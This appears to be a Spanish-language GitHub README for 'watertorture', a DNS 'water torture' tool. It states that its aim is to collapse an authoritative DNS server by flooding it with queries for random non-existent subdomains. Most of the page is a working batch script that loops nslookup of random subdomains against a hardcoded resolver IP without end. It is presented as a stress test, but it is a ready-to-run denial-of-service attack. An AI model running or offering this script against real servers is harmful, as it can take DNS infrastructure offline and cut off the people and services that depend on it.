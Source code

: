 # watertorture

TEST STRESS DNS "WATER TORTURE"
Multitud de consultas de subdominios aleatorios e inexistententes de mydomain.com. Objetivo colapso del servidor DNS autoritavo donde esta registrado mydomain.com

<img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/watertorture/blob/master/watertorture.png">

watertorture.bat ;Water Torture DNS autoritativo con proceso por lotes Bath MS-DOS:
Consultas subdominios aleatorios de un dominio.

@ECHO OFF

ECHO Water Torture DNS autoritativo. (c) hackingyseguridad 2016. Version 1.

:loop

SET/A ran=%random%

NSLOOKUP %ran%.hackingyseguridad.es 196.200.104.106

goto loop

#
# www.hackingyseguridad.com
#

